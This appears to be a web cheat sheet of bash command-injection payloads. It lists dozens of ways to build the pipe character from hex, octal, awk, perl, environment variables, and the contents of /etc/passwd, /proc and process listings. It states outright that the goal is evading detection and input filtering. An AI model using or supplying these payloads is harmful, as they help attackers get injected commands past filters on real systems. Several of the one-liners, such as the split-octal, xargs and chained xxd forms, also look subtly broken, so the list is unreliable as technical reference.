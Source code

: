### Hex-Based Construction

bash

Copy

`# Using hex value of pipe $(printf "\x7c") # Using dynamic hex calculation $(printf "\x$(printf %x 124)") # Using hex with variable X=7c;$(printf "\x$X") # Using math to generate hex $(printf "\x$(expr 124)")`

### Octal-Based Construction

bash

Copy

`# Direct octal value $(printf "%b" "\174") # Split octal construction $(printf "%b" "\17""\64") # Dynamic octal generation $(printf "%b" "\\$(printf %o 124)") # Variable-based octal o=174;$(printf "%b" "\\$o")`

### ASCII Value Methods

bash

Copy

`# Using awk for ASCII conversion $(awk 'BEGIN{printf "%c",124}') # Using perl for character generation $(perl -e 'print pack("C*",124)') # Using tr for character mapping $(echo -e \\0174) # Using bash printf with ASCII $(printf "$(printf \\$(printf %o 124))")`

## Environment Variable Extraction

### System Variable Methods

bash

Copy

`# Using IFS manipulation $(cut -c1 <(echo "$IFS"|od -An -tx1|head -1)) # Using PATH variable extraction $(echo $PATH|cut -c1|tr / "|") # Using environment listing $(env|head -c1|tr a-z "|") # Using shell info $(echo $SHELL|cut -c1|tr / "|")`

### File Content Methods

bash

Copy

`# Using /proc/version content $(grep -o "." /proc/version|head -1|tr L "|") # Using /etc/passwd content $(cut -c1 /etc/passwd|head -1|tr r "|") # Using hostname manipulation $(hostname|cut -c1|tr a-z "|") # Using process info $(ps|cut -c1|head -1|tr P "|")`

## Dynamic Generation Methods

### Mathematical Operations

bash

Copy

`# Using arithmetic for ASCII value $(tr $(printf \\$(printf %o $(expr 124))) $(printf \\$(printf %o $(expr 124))) </dev/null) # Using bc for calculation $(echo "obase=8;124"|bc|xargs printf "\\$(printf %s)") # Using expr for value generation $(expr 124|xargs printf "\\$(printf %o)") # Using seq for numeric generation $(seq 124 124|xargs printf "\\$(printf %o)")`

### File Descriptor Operations

bash

Copy

`# Using redirection manipulation $(echo > /dev/null 2>&1|tr ">" "|") # Using file descriptor listing $(ls -la /proc/self/fd|cut -c1|tr l "|") # Using lsof output $(lsof -n|cut -c1|head -1|tr C "|") # Using file handle info $(ls -l /proc/self/fd/|head -1|cut -c1|tr t "|")`

### Process State Exploitation

bash

Copy

`# Using process statistics $(ps aux|cut -c1|head -1|tr U "|") # Using system load info $(uptime|cut -c1|tr " " "|") # Using memory statistics $(free|cut -c1|head -1|tr t "|") # Using process tree info $(pstree|cut -c1|tr s "|")`

## Command Combination Techniques

### Mixed Encoding Approaches

bash

Copy

`# Combining hex and octal $(printf "\x$(printf %x $(printf %d "\\174"))") # Mixing ASCII and variable methods $(awk 'BEGIN{printf "%c",'"$(echo 124)"'}') # Combining file and encoding methods $(printf "%b" "\\$(od -An -i /etc/hostname|tr -cd '[0-9]'|cut -c1-3)") # Using multiple transformations $(echo $PATH|xxd -p|head -c2|echo "7c"|xxd -r -p)`

### Time-Based Construction

bash

Copy

`# Using timestamp manipulation $(date +%s|cut -c1|tr 1-9 "|") # Using system uptime $(uptime|cut -c1|tr 0-9 "|") # Using file timestamp $(ls -la --time-style=+%s /etc/passwd|cut -c1|tr 1-9 "|") # Using process timing $(ps -eo etimes|head -2|tail -1|tr 0-9 "|")`

## Reliability Considerations

### System Compatibility

1. Test methods in target environment
2. Consider OS differences
3. Check command availability
4. Verify file permissions
5. Monitor error handling

### Execution Strategy

6. Use error suppression when needed
7. Implement fallback methods
8. Consider command timing
9. Check output reliability
10. Verify pipe functionality

### Best Practices

11. Test thoroughly in similar environments
12. Document successful techniques
13. Consider performance impact
14. Implement error checking
15. Monitor system resources

The methods above provide various ways to construct pipe operators while avoiding detection. Each technique has its strengths and may be more or less effective depending on the specific environment and filtering in place.